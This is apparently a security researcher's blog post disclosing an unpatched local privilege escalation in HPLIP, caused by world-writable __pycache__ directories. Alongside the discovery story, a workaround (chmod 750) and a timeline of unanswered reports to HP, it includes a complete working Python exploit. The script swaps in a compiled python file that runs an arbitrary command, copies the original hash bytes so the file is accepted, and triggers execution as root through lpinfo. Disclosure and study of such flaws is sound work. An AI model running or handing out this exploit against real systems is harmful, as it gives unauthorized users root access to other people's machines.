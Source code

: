 =============================
Privilege escalation in HPLIP
=============================

**tl;dr**: Default installations of HPLIP version 3.19.6 and below are
vulnerable to a local privilege escalation 0-day that is important but not
critical due to its setup. It is due to a world-writable directory containing
compiled python files.

The end of good old /tmp symlink privilege escalation
=====================================================

I like file-based privilege escalations, so much so that I already did two
articles around them `here </scr_privesc.html>`_ and `there
(FR) </mail_local_tocttou.html>`_. These bugs are always nice: tricky but
understandable, fun yet exploitable and of course powerful.

The old and most common idea is to trick a privileged program into reading or
writing the file of your choice by guiding it through a symlink at just the
right time. It can happen if using a temporary file in a world-writable
directory such as /tmp for example since anyone can create a file there with
the expected name.

Well, that's the way it used to go at least. But now there's a new sheriff in
Linux town: `/proc/sys/fs/protected_symlinks
<https://sysctl-explorer.net/fs/protected_symlinks/>`_. That bad boy forbids
any process to follow a symlink placed in a sticky world-writable directory
such as /tmp unless the owners match. Its deputy,
`/proc/sys/fs/protected_hardlinks
<https://sysctl-explorer.net/fs/protected_hardlinks/>`_, finishes the job by
forbidding the creation of hard links to files you do not own.

All joke aside, those are great security features that effectively and
proactively block many privilege escalation bugs (especially considering the
number of sysadmin scripts I've seen that run as root while manipulating
files in /tmp).

However protected_symlinks only protects sticky directories and only against
link attacks. World-writable directories are still a weak point where we can
remove existing files and create our owns.

Vulnerability discovery
=======================

A few month ago I decided to look for world-writable directories on my system
to get an idea of my exposure. This is a simple find command from which two
directories emerged:

.. code:: sh

    $ find / -type d -perm -007
    …
    /usr/share/hplip/prnt/__pycache__
    /usr/share/hplip/base/pexpect/__pycache__
    …

HPLIP (HP Linux Imaging and Printing) is an HP Inc project that proposes
better integration of HP products on Linux.

.. image:: ../image/gekkan_shoujo_peek.png

They contained compiled python files, bytecode files that are produced when
importing a library and cached for performance. Since they're loaded on
subsequent access they're effectively executables.

::

    /usr/share/hplip/base/pexpect/__pycache__:
    total 128
    -rw-r--r-- 1 root cups 65211 Jul 13  2018 __init__.cpython-36.pyc
    -rw-r--r-- 1 root cups 63065 Jun  4 07:17 __init__.cpython-37.pyc

    /usr/share/hplip/prnt/__pycache__:
    total 92
    -rw-r--r-- 1 root cups 22289 Jul 13  2018 cups.cpython-36.pyc
    -rw-r--r-- 1 root cups 22236 Jun  4 07:17 cups.cpython-37.pyc
    -rw-r--r-- 1 root cups   116 Jul 13  2018 __init__.cpython-36.pyc
    -rw-r----- 1 root cups   120 Jun  5 07:27 __init__.cpython-37.pyc
    -rw-r--r-- 1 root cups  8934 Jul 13  2018 ldl.cpython-36.pyc
    -rw-r--r-- 1 root cups 12439 Jun  4 07:17 ldl.cpython-37.pyc
    -rw-r--r-- 1 root cups  1522 Jul 13  2018 pcl.cpython-36.pyc
    -rw-r--r-- 1 root cups  2116 Jun  4 07:17 pcl.cpython-37.pyc

Later investigation showed that these files were imported by HPLIP on
different occasions. It seemed related to listing available printers in CUPS
notably when adding a new one, but later investigation showed that using
*lpinfo -v* removes the need to use the CUPS web interface.

So we have a bunch of executables owned by root in a directory that any user
can mess with and that can be triggered by poking the CUPS server, what could
go wrong?

Exploitation
============

The basic idea is as follow:

- Write our own compiled python file that runs a command of our choice
- Replace one of the HPLIP PYC file with our own
- List printers through lpinfo
- Drink to our success as our PYC file is executed with root privileges

Easy right? Quite: there are two problems we need to take care of beforehand.
The first one is that listing printers in CUPS can only be done by someone in
the **sys** group. From there on we'll assume that our user in in that group.

We can verify easily that HPLIP files are executed by deleting the content
of /usr/share/hplip/prnt/__pycache__ (don't worry, it's only cache) and
executing *lpinfo -v*. We see that the four files are recreated. Replacing
any of these file by our own would trigger the issue.

The other real issue is to write our own PYC file. Of course we could study
the file format but it's much easier to ask python to compile our source file
directly. This can be done using the standard library module **py_compile**.

.. code:: python

    import py_compile
    open("/tmp/test.py", "w").write("print('Hello')")
    py_compile.compile("/tmp/test.py")
    # /tmp/__pycache__/test.cpython-37.pyc

This seems easy enough, but if we try we quickly notice that it doesn't work
as expected: python completely ignores our PYC file, removes it and writes his
own. And thinking about it it's normal: this is a cache file, it must have
some way to check that the original source file wasn't changed. Since our PYC
doesn't correspond to the original file python assumes that the source file
has been changed and recompiles it.

Armed with that idea we start looking for a hash of the source file in the
compiled one. Sure enough, after some trial and errors, bytes 8 through 16
correspond to a hash. Which one? I didn't care to find out, I just copied the
original PYC's hash into my own and it was properly executed when calling
HPLIP.

.. image:: ../image/gekkan_shoujo_quickvic.png
    :width: 40%

Exploit
=======

Here is the final exploit in all its splendor, tried on a stock Manjaro
installation which has HPLIP and cups running by default, from a user named
"test" whose only groups were *sys test*.

.. image:: ../image/hplip_exploit_proof.png

.. code:: python

    #!/usr/bin/env python3

    import os
    import subprocess
    import py_compile
    import tempfile
    import base64
    import requests

    def check_dir(path):
        if not os.path.isdir(path):
            return None

        pycache_path = os.path.join(path, "__pycache__")

        if not os.path.exists(pycache_path):
            trigger_add_printer()

        if os.access(pycache_path, os.W_OK):
            return pycache_path
        return None


    def pyc_compile_file(path):
        fo = tempfile.mktemp()
        py_compile.compile(path, cfile=fo)
        result = open(fo, "rb").read()
        os.remove(fo)
        return result


    def pyc_get_hash(filename):
        # If necessary, add-printer once to pre-load pyc files
        if not os.access(filename, os.R_OK):
            init_path = os.path.join(os.path.dirname(os.path.dirname(filename)),
                                     "__init__.py")
            content = pyc_compile_file(init_path)
        else:
            content = open(filename, "rb").read()
        return content[8:16]


    def pyc_content(cmd, pyc_hash):
        content = 'import os\nos.system(""" %s """)' % cmd
        fi = tempfile.mktemp()
        open(fi, "wb").write(content.encode("utf8"))
        raw = pyc_compile_file(fi)
        os.remove(fi)
        return raw[:8] + pyc_hash + raw[16:]


    def main():
        if len(os.sys.argv) < 2:
            print("Usage: %s CMD" % os.sys.argv[0])
            return 1

        cmd = os.sys.argv[1]

        print("[+] Check that /usr/share/hplip/ contains 777 directories")
        vulnerable_dir = (check_dir("/usr/share/hplip/prnt") or
                          check_dir("/usr/share/hplip/base/pexpect"))

        if vulnerable_dir is None:
            print("[!] hplip not available or not vulnerable")
            return 1
        print("[-] Found: %s" % vulnerable_dir)

        print("[+] Write and compile an __init__.py file")
        init_file_name = sorted(filename
                                for filename in os.listdir(vulnerable_dir)
                                if "__init__" in filename)[-1]

        init_file_path = os.path.join(vulnerable_dir, init_file_name)

        print("[+] Recover the original pyc hash")
        pyc_hash = pyc_get_hash(init_file_path)

        print("[+] Write the new pyc file in the vulnerable directory")
        os.remove(init_file_path)
        open(init_file_path, "wb").write(pyc_content(cmd, pyc_hash))

        print("[+] Call lpinfo to list printers and trigger command")
        if subprocess.call(["lpinfo", "-v"]) != 0:
            print("[!] lpinfo failed, are you in the 'sys' group?")
            return 1

        print("[+] Success (probably)!")
        return 0

    if __name__ == "__main__":
        main()

.. image:: ../image/gekkan_shoujo_victory.png
    :width: 40%

Impact and follow-up
====================

Privilege escalations should never be treated lightly but they require to
already have access to the system. Furthermore access to the *sys* group
is seldom given to users that aren't already part of the sudo group. If that
situation arises though then this exploit is quite effective.

At the moment Manjaro releases at least are vulnerable out of the box and **no
patch exists**. I've tried several times to alert the HP team behind HPLIP of
this issue but received no answer. Following the common 90 days deadline I'm
releasing this in the wild in hope to alert users and manufacturers alike.

The only local fix I know is to remove all access to /usr/share/hplip for
users that aren't in the correct group. It might have unforeseen effects, but
simply deleting or changing the rights of the *__pycache__* directories is
useless: HPLIP automatically changes the rights back to 777.

.. code:: bash

    sudo chmod 750 /usr/share/hplip

Timeline
--------

- 2019/06/04: Discovery
- 2019/06/06: First mail to HP — No answer
- 2019/08/29: Second mail to HP — No answer
- 2019/09/06: Third mail to HP — No answer
- 2019/12/06: Public disclosure

.. image:: ../image/gekkan_shoujo_grumpy.png
    :width: 40%

Image sources
-------------

- https://www.nicepng.com/ourpic/u2q8q8t4r5t4y3o0_anime-shit-ura-omote-fortune-gekkan-shojo-nozaki/
- https://boards.fireden.net/a/last/50/165510639/
- https://picsart.com/i/sticker-anime-animegirl-gekkan-shoujo-nozaki-kun-nozaki-235098356053212
- https://knowyourmeme.com/photos/830115-gekkan-shoujo-nozaki-kun-monthly-girls-nozaki-kun
